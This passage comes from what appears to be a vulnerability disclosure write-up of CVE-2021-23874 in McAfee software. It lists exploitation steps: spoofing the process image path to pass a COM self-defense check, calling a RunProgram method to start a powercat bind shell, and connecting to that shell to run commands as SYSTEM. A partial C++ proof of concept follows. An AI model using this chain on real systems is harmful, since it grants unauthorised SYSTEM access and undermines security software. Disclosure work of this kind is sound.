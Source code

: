 Thus, in order to bypass self-defense, it is necessary to call the above function *MasqueradeImagePath* with path to any McAfee signed binary as argument before the first COM proxy call is made:

{% highlight c++ %}
constexpr auto McLaunchExePath =
    LR"(C:\Program Files\McAfee\CoreUI\Launch.exe)"; // Your/path/to/Launch.exe
MasqueradeImagePath(McLaunchExePath);
{% endhighlight %}

# 0x07: Exploitation

Summarizing  all the steps together, it turns out that for successful exploitation we need to do the following:

1. Instantiate *CoManageOem Class* COM-object in *McAWFwk* service, get a marshalled pointer to it and query *IMcClassFactory* interface to factory with
*::CoGetClassObject(77b97c6a-cd4e-452c-8d99-08a92f1d8c83, ..., fd542581-722e-45be-bed4-62a1be46af03, &pMcClassFactory)*;
2. Masquarade PEB to bypass ProxyStub check with *MasqueradeImagePath*;
3. Create incapsulated COM-object *ManageOem Class*, get a marshalled pointer to it and query *IManageOem* interface to object with
*pMcClassFactory->InternalCreateObject(9b6c414a-799d-4506-87d1-6eb78d0a3580, &pManageOem)*;
4. Call *IManageOem::RunProgram* to run shell bind TCP listener on localhost:12345 with *powershell.exe powercat.ps1* with *pManageOem->RunProgram("powershell.exe", ". .\powercat.ps1;powercat -l -p 12345 -ep")*;
5. Connect to listener and execute shell commands as SYSTEM with *. .\powercat.ps1;powercat -c 127.0.0.1 -p 12345*.

Here is a shortened version of the code for exploiting the vulnerability, you can see full version of the PoC on the [github](https://github.com/the-deniss/Vulnerability-Disclosures/tree/main/CVE-2021-23874):

{% highlight c++ %}
constexpr auto McLaunchExePath =
    LR"(C:\Program Files\McAfee\CoreUI\Launch.exe)"; // Your/path/to/Launch.exe

class __declspec(uuid("fd542581-722e-45be-bed4-62a1be46af03")) IMcClassFactory :
    public IUnknown
{
public:
    virtual HRESULT __stdcall InternalCreateObject(
        _In_ REFIID riid,
        _COM_Outptr_ void **ppvObject);
};

class __declspec(uuid("9b6c414a-799d-4506-87d1-6eb78d0a3580")) IManageOem :
    public IDispatch
{
public:
    virtual HRESULT Proc7(/* Stack Offset: 8 */ /*[Out]*/ BSTR *p0);
    virtual HRESULT Proc8(/* Stack Offset: 8 */ /*[Out]*/ BSTR *p0);
    virtual HRESULT Proc9(/* Stack Offset: 8 */ /*[Out]*/ BSTR *p0);
    virtual HRESULT Proc10(/* Stack Offset: 8 */ /*[Out]*/ BSTR *p0);
    virtual HRESULT Proc11(/* Stack Offset: 8 */ /*[Out]*/ short *p0);
    virtual HRESULT Proc12(/* Stack Offset: 8 */ /*[In]*/ short p0);
    virtual HRESULT Proc13(
        /* Stack Offset: 8 */ /*[In]*/ BSTR p0,
        /* Stack Offset: 16 */ /*[Out]*/ BSTR *p1);
    virtual HRESULT RunProgram(
        /* Stack Offset: 8 */ /*[In]*/ BSTR bstrExePath,
        /* Stack Offset: 16 */ /*[In]*/ BSTR bstrCmdLine,
        /* Stack Offset: 24 */ /*[Out]*/ /* ENUM16 */ int *returnCode);
    /* Other methods */
};

_COM_SMARTPTR_TYPEDEF(IMcClassFactory, __uuidof(IMcClassFactory));

[McAfee Security Bulletin]: http://service.mcafee.com/FAQDocument.aspx?&id=TS103114